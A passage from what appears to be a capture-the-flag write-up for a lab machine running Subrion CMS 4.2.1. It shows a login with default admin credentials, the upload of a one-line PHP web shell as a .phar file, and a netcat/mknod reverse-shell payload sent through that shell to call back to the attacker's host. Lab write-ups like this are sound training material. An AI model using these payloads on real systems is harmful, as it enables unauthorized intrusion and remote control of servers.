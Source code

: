 The _/panel_ directory shows the Subrion Admin Panel login and that this is version _4.2.1_

![admin](../../../assets/images/ctfs/proving_grounds/exfiltrated/admin.png)

Searchsploit shows an arbitray file upload exploit for this version if we can get authentication to the admin panel.

Default credentials _admin:admin_ allow access.

![panel](../../../assets/images/ctfs/proving_grounds/exfiltrated/panel.png)

The arbitrary file upload looks like it is simply uploading a php web shell to the _/panel/uploads_ area.

The exploit shows the extension of the file is _.phar_

Let's try a PHP web shell upload.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/exfiltrated]
└─$ cat cmd.phar
<?php
system($_GET['cmd']);
?>
```

![upload](../../../assets/images/ctfs/proving_grounds/exfiltrated/upload.png)

Verify that we have command execution with our PHP web shell.

![id](../../../assets/images/ctfs/proving_grounds/exfiltrated/id.png)

# Exploitation

---

We can now use our PHP web shell to get a reverse shell on our target.

Generate a nc-mknod reverseh shell one-liner and execute the payload to get the reverse shell.

```bash

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY]
└─$ revshellgen -i 192.168.45.217 -p 9001 -t nc-mknod

[+] Reverse shell command:

rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l

# URL encode and execute the following payload

http://exfiltrated.offsec/uploads/cmd.phar?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20192.168.45.217%209001%20%3E%2Ftmp%2Ff

# Receive the reverse shell
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/exfiltrated]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.232.163] 36150
sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)


```

